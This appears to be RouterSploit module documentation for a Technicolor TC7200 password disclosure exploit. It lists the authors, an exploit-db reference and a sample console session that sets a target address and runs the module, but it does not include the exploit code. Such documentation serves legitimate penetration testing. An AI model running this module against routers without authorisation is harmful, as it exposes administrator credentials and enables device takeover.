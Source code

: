 # Technicolor TC7200 Password Disclosure

## Description
Module exploits Technicolor TC7200 password disclosure vulnerability which allows fetching administration's password.

## Authors
* Jeroen - IT Nerdbox # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/31894/](https://www.exploit-db.com/exploits/31894/)

## Vulnerable devices
* Technicolor TC7200

## Usage
```
rsf > use exploits/technicolor/tc7200_password_disclosure
rsf (Technicolor TC7200 Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (Technicolor TC7200 Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Technicolor TC7200 Password Disclosure) > run
[*] Running module...
```

